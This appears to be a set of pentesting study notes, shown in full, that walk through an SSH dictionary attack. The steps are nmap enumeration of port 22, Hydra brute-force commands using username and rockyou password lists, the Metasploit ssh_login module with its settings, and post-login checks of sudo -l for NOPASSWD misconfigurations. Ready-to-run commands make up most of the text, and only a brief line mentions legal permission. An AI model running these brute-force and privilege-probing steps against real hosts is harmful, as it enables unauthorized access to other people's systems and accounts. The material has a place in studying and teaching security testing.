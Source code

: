 
## 🛡️ SSH Dictionary Attack – Complete Notes

### 🎯 Objective

Attempt brute-force attack on an SSH service to gain access when:

* You **don’t have valid credentials**
* SSH port (22) is **open** on the target

---

### 🔍 Step 1: Enumeration

Before attempting a dictionary attack, **identify** that SSH is open.

```bash
nmap -p22 -sV <target-ip>
```

You may also run:

```bash
nmap -sV -O <target-ip>
```

---

### 💣 Step 2: SSH Brute Force Attack Using Hydra

#### 🔐 Basic Hydra Command

```bash
hydra -l <username> -P /path/to/password-list.txt ssh://<target-ip>
```

#### 🔐 Example:

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.10
```

#### 📂 Using Username and Password Lists:

```bash
hydra -L /usr/share/wordlists/usernames.txt -P /usr/share/wordlists/rockyou.txt ssh://<target-ip>
```

✅ **Flags Explained:**

* `-l` → single username
* `-L` → list of usernames
* `-P` → list of passwords
* `ssh://` → target protocol

---

### 🧨 Step 3: SSH Brute Force Using Metasploit

1. Start Metasploit:

```bash
msfconsole
```

2. Use SSH Login Module:

```bash
use auxiliary/scanner/ssh/ssh_login
```

3. Set options:

```bash
set RHOSTS <target-ip>
set USERNAME <username>        # Or use USER_FILE for list
set PASS_FILE /path/to/password-list.txt
```

4. (Optional) Enable verbose to see attempts:

```bash
set VERBOSE true
```

5. Run the module:

```bash
run
```

---

### 🛠️ After Getting Credentials

Once valid SSH credentials are found:

```bash
ssh <user>@<target-ip>
```

Example:

```bash
ssh admin@192.168.1.10
```

🔐 If you get access, **check for sudo permissions**:

```bash
sudo -l
```

🔍 Look for:

* Access to root commands
* Misconfigurations (e.g., NOPASSWD)

---

### 🧠 Additional Notes

* SSH brute-force attacks are **noisy** — easily detected.
* Avoid brute-forcing public IPs without **legal permission**.
* Try **default creds** or **Google known service usernames** if enumeration gives software version.

